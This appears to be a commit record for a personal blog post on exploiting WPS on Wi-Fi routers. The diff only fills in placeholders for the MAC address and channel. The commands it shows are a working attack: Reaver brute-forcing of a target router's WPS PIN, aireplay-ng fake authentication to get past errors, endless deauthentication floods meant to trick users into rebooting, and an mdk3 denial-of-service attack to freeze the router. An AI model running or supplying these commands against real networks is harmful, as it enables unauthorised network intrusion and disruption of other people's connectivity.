

Before and after one commit to alexalwks2/aaronjohn2.github.io, a Jekyll site: the page built from _posts/2018-01-28-exploiting-wps.md, in a window 1280 px wide and 1400 px high, scrolled down 983 px. Shown: the whole window, without its empty margins (239-1041 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
Update 2018-01-28-exploiting-wps.md

````diff
--- a/_posts/2018-01-28-exploiting-wps.md
+++ b/_posts/2018-01-28-exploiting-wps.md
@@ -21,7 +21,7 @@ wash -i wlan0
 
 2. Next, we will run Reaver against the target WPS enabled router.
 ```shell
-reaver -b () -c () -i wlan0
+reaver -b (input mac address here) -c (input channel here) -i wlan0
 ```
 (Note: in the above command -b is the bssid of the target router, -c is the channel of the router and -i is the interface of the wireless adapter; where in my case its wlan0.)
 
@@ -30,11 +30,11 @@ reaver -b () -c () -i wlan0
 
 4. Now, we will get these two commands ready in separate windows as shown below. First we will run the Reaver command and then immediately after we will run the aireplay-ng command. This below method should succesfully help you bypass the "Failed to associate" issue.
 ```shell
-reaver -b () -c () -i wlan0 -A -vvv
+reaver -b (input mac address here) -c (input channel here) -i wlan0 -A -vvv
 ```
 (Note: in the above command -vvv is to show verbose output on the screen. Which means everything that happens happens in the background of Reaver tool will be output to the screen. Type reaver --help in terminal for more info.)
 ```shell
-aireplay-ng --fakeauth 100 -a () -h () wlan0
+aireplay-ng --fakeauth 100 -a (input AP mac address here) -h (input attack machine mac address here) wlan0
 ```
 (Note: in the above command -a is the mac address of router -h is the mac address of your attack machine. In order to find your mac address, do ifconfig in terminal and if you see an unspec field, its the first 12 digits. Make sure to replace the '-' with a ':' when typing in the mac address for -h option.)
 
@@ -48,10 +48,10 @@ reaver --help
 
 5. Run the below command simultaneously, by first running the Reaver command in one window and immediately running the aireplay-ng command after in another window. -N option for Reaver should successfully help us bypass the 0x02 and 0x03 error.
 ```shell
-reaver -b () -c () -i wlan0 -A -vvv -N
+reaver -b (input mac address here) -c (input channel here) -i wlan0 -A -vvv -N
 ```
 ```shell
-aireplay-ng --fakeauth 100 -a() -h() wlan0
+aireplay-ng --fakeauth 100 -a (input AP mac address here) -h (input attack machine mac address here) wlan0
 ```
 (Note: in the above commands we are associating reaver manually by using aireplay-ng which is why there is a -A option and -vvv is for verbose output.)
 
@@ -64,7 +64,7 @@ aireplay-ng --fakeauth 100 -a() -h() wlan0
 <br>
 7. Solution 1: is to get the user to reset their router by sending them an infinite amount of deauth packets, hoping until one of the users will think something is wrong with the network router and would go and turn off their router and it back on. When the client does this the router will get unlocked and we will be able to resume Reavers progress again.
 ```shell
-aireplay-ng --deauth 100000000000 -a () wlan0
+aireplay-ng --deauth 100000000000 -a (input AP mac address here) wlan0
 ```
 (Note: in the above command -a is the mac address of the target router.)
 
@@ -74,7 +74,7 @@ mdk3 --help -a
 ```
 (Note: the above command will show more info on DDOS attack. To see more info of MDK3 type mdk3 --help)
 ```shell
-mdk3 wlan0 a -a () -m
+mdk3 wlan0 a -a (input AP mac address here) -m
 ```
 (Note: in the above command, a is the DOS mode attack, -a is the mac address of router. Here, mdk3 will be used to create a large number of client MAC's (-m) which will be used to connect (send authentication frames) to the target WPS enabled router in order to freeze/reset the router.)
 
````
